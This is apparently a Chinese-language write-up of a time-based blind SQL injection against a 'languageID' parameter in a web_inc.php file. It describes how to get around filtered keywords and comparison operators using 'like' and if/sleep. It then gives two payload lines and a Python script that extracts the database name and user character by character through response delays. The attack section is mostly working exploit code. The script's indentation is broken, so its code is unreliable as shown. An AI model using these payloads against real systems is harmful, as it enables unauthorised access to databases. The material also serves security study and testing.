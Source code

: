 过滤了一些关键字，正常的联合注入是没有办法了，可以时间盲注。

利用 if 和 sleep 构造 payload，因为 <,= 被过滤且存在 htmlspecialchars 函数，利用 like 代替

  
payload：

```
languageID=0orif(substr(database(),1,1) like 0x6e,sleep(5),1);


languageID=0orif(ascii(substr(database(),%s,1))-%s,1,sleep(5));
```

脚本：

```
# !/usr/bin/python3
# -*- coding:utf-8 -*-
# author: Forthrglory


import requests


def getDatabase(url):
    s =''
    r = requests.session()
    head ={'Content-Type':'application/x-www-form-urlencoded'}
for i in range(1,9):
for j in range(32,122):
            data ='languageID=0 or if(ascii(substr(database(),%s,1))-%s,1,sleep(5));'%(i,j)


            result = r.post(url, data, headers=head)


if(result.elapsed.total_seconds()>5):
                s = s + chr(j)
print(s)
break
print('database='+ s)




def getUser(url):
    s =''
    r = requests.session()
    head ={'Content-Type':'application/x-www-form-urlencoded'}
for i in range(1,21):
for j in range(32,122):
            data ='languageID=0 or if(ascii(substr(user(),%s,1))-%s,1,sleep(5));'%(i,j)


            result = r.post(url, data, headers=head)


if(result.elapsed.total_seconds()>5):
                s = s + chr(j)
print(s)
break
print('user='+ s)


if __name__ =='__main__':
    url ='http://127.0.0.1/Include/web_inc.php'
```